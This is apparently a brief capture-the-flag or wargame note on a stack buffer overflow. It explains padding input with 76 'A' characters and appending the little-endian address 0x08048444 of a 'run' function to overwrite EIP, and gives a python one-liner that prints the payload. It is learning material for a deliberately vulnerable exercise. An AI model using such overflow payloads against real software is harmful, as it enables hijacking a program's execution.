

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + adress of the run function so we can overflow the value of the EIP with adress of our function so it gets executed unstead of exiting the main function

we have litle indian addressing so we should reverse our input the adress of the run function is : 0x08048444

using python -c "print('A' * 76 + '\x44\x84\x04\x08')"
```